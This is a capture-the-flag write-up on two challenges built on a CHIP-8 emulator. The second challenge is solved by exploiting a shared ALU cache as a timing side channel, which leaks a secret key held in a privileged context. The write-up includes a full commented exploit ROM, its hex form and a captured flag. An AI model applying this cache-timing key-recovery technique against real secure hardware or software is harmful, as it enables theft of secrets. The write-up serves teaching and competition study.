


# BattleChip (misc, 495)

**BattleChip** was a misc challenge that leant towards what I think could have been categorized as a fun mixture of hardware & pwn.

We were given a **CHIP-8 emulator implementation** in Python. CHIP-8 is an interpreted programming language designed in the 1970s meant to be run on a virtual machine, that was primarily used to create videogames on old 8-bit machines.

The emulator runs on a **remote server**, which we can connect to and supply a ROM in hexadecimal. A few peripherals are implemented, including **display**, which is sent back to the client, and **timers**. (keyboard is not implemented, we can't play pong, or even better, Ventriglisse :()


*Example of a Ventriglisse session (Slippery Slope) on CHIP-8*

## Prequel: Chip & Fish

BattleChip actually had a nice little prequel challenge called Chip & Fish to introduce us to CHIP-8 and communicating with the remote server.

We are told the flag is hidden in the 16 first bytes of the stack. Indeed, let us take a look at the given `challenge1.py`:

```python
vm = emulator.Emulator()
sys.stdout.write("hex encoded rom:\n")
sys.stdout.flush()
data = sys.stdin.readlines(1)[0]
vm.untrusted_ctx.memory.data[Memory.O_STACK:Memory.O_STACK + len(FLAG_LV1)] = FLAG_LV1
vm.load(data)
vm.run()
```

`Memory.O_STACK` holds the address of the beginning of the stack, which is `0xEA0`, as in most implementations.

Therefore, all we need to do is write a tiny program that will dump the contents of these 16 bytes, between `0xEA0` and `0xEB0`.

Disclaimer: I wrote all my programs directly in hexadecimal opcodes, but there are many comments to help understand them.

Let's have a look at the **opcode table** [on Wikipedia](https://en.wikipedia.org/wiki/CHIP-8#Opcode_table). We notice a few instructions that will be of great help:

```
6XNN
    Vx = NN
    Sets VX to NN.

ANNN
    I = NNN
    Sets I to the address NNN.

DXYN
    draw(Vx,Vy,N)
    Draws a sprite at coordinate (VX, VY) that has a width of 8 pixels and a height of N+1 pixels. Each row of 8 pixels is read as bit-coded starting from memory location I; I value does not change after the execution of this instruction.
```

We also learn that `I` is a general purpose 16-bit register for memory addresses.

With that in mind, we can already create our first very simple program:

```
6800 ; Set v8 = 0
6900 ; Set v9 = 0
aea0 ; Set I = 0xEA0 (stack)
d89f ; Draw 0xF+1 bytes from I at (v8, v9) on the screen
ffff ; Exit
```

We submit our ROM to the server: `68006900aea0d89fffff` and receive the display!



Convert this to binary and then hex, and we have our first flag!

`FCSC{e50f91bc6418a7a79b0c3fe74bb5e600}`

## BattleChip: A few twists on the architecture

Now for the real challenge. We are told the implementation of the CHIP-8 virtual machine has **several additional elements in its architecture**.



*BattleChip* introduces a **Secure Element** which holds a secret key, and which adds a new execution context ("privileged") that can interface with it. Here's a summary of what it changes:

* A **10-byte secret key** is initialized at boot time (when we connect to the server)
* An **LRU cache** (Least Recently Used) has been implemented in the ALU (Arithmetic Logic Unit). It is described as: operations in the ALU usually take up **2 cycles**, but when they are cached, they only take up **1**, which saves time.
* Three new opcodes are added:
    * `0000` **encrypts** 10 input bytes (at `I`) with the secret key
    * `0001` **verifies** if our input is the secret key
    * `00E1` **clears** the ALU cache
* When context is switched, memory is copied from unsafe space to safe space, but not the other way around (yes, we can't even know what is the result of the encryption with the `0000` opcode). Only the VF register is returned to unsafe space (to carry a return value).

What is particularly nice about this challenge is that we do not have to focus at all on the Python implementation (the source files), as all the elements we need to trust in are :
* the CHIP-8 specifications (Wikipedia is largely sufficient) ;
* the additional challenge specifications as they are described.

However, we are still going to have to **reverse the pre-compiled routines** for the new opcodes, because we don't know what they exactly do.

Basically, when the emulator is instanciated, **two contexts** are created; an untrusted one (the normal one) and a *trusted* one.

```python
class Emulator:
    def __init__(self):
        self.untrusted_ctx = UntrustedContext()
        self.trusted_context = TrustedContext()

        self.untrusted_ctx.secure_element = self.trusted_context
```

When the *trusted* context is created, it generates the random secret key, and sets the two pre-compiled routines `encrypt` and `verify`, where some bytes are dynamically replaced with bytes from the key.

```python
class TrustedContext(BaseContext):
    def __init__(self):
        super().__init__()
        self.execution_key = os.urandom(10)
        self.co_encrypt = routines.preco_encrypt.format(*self.execution_key)
        self.co_verify = routines.preco_verify.format(*self.execution_key)
```

These routines are hardcoded in the emulator:

```python
"""
def encrypt_0000(I):
    \"""pre-compiled code
    
    Xor a buffer of size 10 stores at I with a temporary key.
    The secret key is already defined.

    I is copied from the insecure context

    =>  The number of cycles needed to execute this routine
        will be copied at the end of execution in the insecure context.
        The 0xF-th register will contain the value.
    \"""
    [REDACTED]
"""
preco_encrypt = """
6301
62{:02X}
F065
8023
F055
F31E

[...]

62{:02X}
F065
8023
F055
F31E
FFFF
"""
```

Fun fact, back then I totally didn't notice what was written about the number of cycles needed being returned to the insecure context. So we are going to pretend we never read this, as we can solve the challenge without it :^)

```python
"""
def verify_0001(I):
    \"""pre-compiled code
    
    Xor a buffer of size 10 stores at I with a temporary key.
    The secret key is already defined.

    I is copied from the insecure context

    =>  0xF-th register in the secure context will be copied
        in the insecure context at the end of this routine execution
    \"""
    [REDACTED]
"""
preco_verify  = """
6101
6200

F065
63{:02X}
8303
8231
F11E

[...]


8F20
FFFF
"""
```

We can see in each routine there are 10 `{:02X}`, which are placeholders for the secret key bytes.

Octo (https://johnearnest.github.io/Octo/) is a slick online emulator for CHIP-8 that can also compile code and disassemble code in human readable assembly. Let's replace the placeholder secret key bytes with dummy ones (0x42), and disassemble the two routines.

```c
: encrypt
	v3 := 0x01
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
	v2 := 0x42
	load v0
	v0 ^= v2
	save v0
	i += v3
```

As described earlier, the `encrypt` routine does indeed encrypt our input with the secret key using simple XOR operations, one byte at a time.

```c
: verify
	v1 := 0x01
	v2 := 0x00
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	load v0
	v3 := 0x42
	v3 ^= v0
	v2 |= v3
	i += v1
	vF := v2
```

The `verify` routine is quite similar to the `encrypt` one. The main change is that the XOR results are ORed together: if the final result is 0, we know the comparison was successful.

Finally, here is what happens when the `verify` routine returns 1 in `VF` (`cu.py`, control unit code):

```python
se = self.cpu.context.secure_element
se.reset()
se.set_context(
    i=self.cpu.processor.i,
    memory=self.memory.data[self.memory.O_STACK:self.memory.SIZE]
)
flag = se.exc_verify()
self.cpu.processor.v[0xF] = se.cpu.processor.v[0xF]
if self.cpu.processor.v[0xF] == 0:
    if self.cpu.processor.i+10+len(flag) > self.memory.SIZE:
        raise MemoryError("Not enough memory space")
    self.memory.data[self.cpu.processor.i+10:self.cpu.processor.i+10+len(flag)] = flag 
```

**If we call verify with the secret key, the flag is copied in unsafe space memory and we will be able to read it.** Our goal is thus to find a way to retrieve the secret key!

## BattleChip: Exploit

As there is only one processor unit, **the ALU cache is shared between the two contexts**. 

This means the **number of cycles elapsed during an ALU operation** can act as a binary side channel. If we measure only one cycle instead of two during, for instance, a XOR operation, we know it means it is currently cached.

Just to be sure, let's check out how the cache is implemented inside the emulator (`alu.py`):

```python
def request(func):
    wanted = None
    @functools.wraps(func)
    def wrapper(*args, **kwargs):
        nonlocal wanted
        if wanted is not None:
            ret = ALU.Status.AVAILABLE, wanted
            wanted = None
            return ret
        misses = func.cache_info().misses
        ret = func(*args, **kwargs)
        if func.cache_info().misses == misses:
            return ALU.Status.AVAILABLE, ret
        wanted = ret
        return ALU.Status.PENDING, (None, None)
    return wrapper

[...]

@request
@functools.lru_cache(maxsize=16)
def xor(self, a, b):
    return a ^ b, 0
```

An actual LRU cache from `functools` is used, with max size 16.
The ALU has two possible states: `AVAILABLE` or `PENDING`. In `cu.py`:

```python
state, result = self.cpu.alu.xor(self.cpu.processor.v[x], self.cpu.processor.v[y])
if state == self.cpu.alu.Status.PENDING:
    self.pc -= 2
else:
    self.cpu.processor.v[x], unused = result
```

If the ALU is in the `PENDING` state, the `PC` register is rolled back two bytes, in other words the instruction is executed twice, and the next time it'll have switched to the `AVAILABLE` state. However, when the operation is cached, the ALU doesn't enter the `PENDING` state.

With this in mind, it is fairly easy to **leak information about the secret key** during the `encrypt` routine.

Denote `P[k] = (0, ..., 0xFF, ..., 0)` (10 bytes) with `0xFF` at the k-th position.

We are going to ask the trusted context to perform `P xor S`, where `S` is the secret key, by putting `P` at position `I` and calling `0000`. In particular, the operation `0xFF xor S[k]` will be performed and put in cache. We can then **bruteforce** `S[k]` by computing `i xor S[k]` for `i` in [0, 255] and **counting the number of cycles** each of these XOR operations lasted.

Of course, we should reset the cache with the `00E1` instruction at each iteration to avoid any problems. This allows us to recover the secret key in 2560 encryptions worst case, but it will run pretty fast anyways since everything is run server-side (we'll just send our ROM exploit once).

CHIP-8 has two useful instructions for counting cycles, thanks to the **timer**:

```
FX07
    Vx = get_delay()
    Sets VX to the value of the delay timer.

FX15
    delay_timer(Vx)
    Sets the delay timer to VX.
```

The *delay timer* is simply a value that is decremented each cycle (and stays at 0 once it reaches it). So if we set the delay timer to some arbitrary value before performing a XOR operation, and then retrieve the value of the delay timer right after, we can use this latter value to know whether the operation was cached.

We have everything to build our exploit ROM. The following code is my commented exploit.

```llvm
; I pointing to stack (copied in privileged context)
0xae 0xa0
; v1 = 1 (useful for increments)
0x61 0x01

; Set the first 10 bytes of memory to 0
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e
0x60 0x00
0xf0 0x55
0xf1 0x1e

0x62 0x00
; v2 = 0 <= k < 10 counter

  ; Set byte at index k to 0xFF
  0xAE 0xA0
  0xF2 0x1E
  0x60 0xFF
  0xF0 0x55

  0x63 0x00
  ; v3 = 0 <= i < 256 counter

    ; Clear cache and call encrypt
    0x00 0xE1
    0xAE 0xA0
    0x00 0x00

    ; Measure number of cycles of operation 0xFF ^ i 
    0x65 0x08
    0x66 0xFF
    0xF5 0x15
    0x86 0x33
    0xF0 0x07

    ; Display elapsed timer (debugging purposes :))
    0xAF 0x80
    0xF0 0x55
    0x68 0x00
    0x69 0x00
    0xD8 0x9F

    ; v0 = 6 => fewer cycles than expected, break
    0x40 0x06
    0x12 0x70

    ; Increment i
    0x73 0x01    

    ; Loop if i != 0 (to 0x24C)
    0x33 0x00
    0x12 0x4C

  ; Save the byte we found at address 0xF00 + k
  0xAF 0x00
  0xF2 0x1E
  0x80 0x30
  0xF0 0x55

  ; Reset the byte at index k
  0xAE 0xA0
  0xF2 0x1E
  0x60 0x00
  0xF0 0x55
  
  ; Increment k
  0x72 0x01

  ; Loop if k != 10 (to 0x242)
  0x32 0x0A
  0x12 0x42

; End of the brute-force

; Call verify with the secret we found
0xAF 0x00
0x00 0x01

; Flag should be copied at address I+10. Dump it!
0xAF 0x0A
0x68 0x00
0x69 0x00
0xD8 0x9F

; Exit
0xFF 0xFF
```

Exploit ROM in hexadecimal :
`aea061016000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6000f055f11e6200aea0f21e60fff055630000e1aea00000650866fff5158633f007af80f05568006900d89f4006127073013300124caf00f21e8030f055aea0f21e6000f0557201320a1242af000001af146800690ad89f`

Send it to the server and enjoy the show!


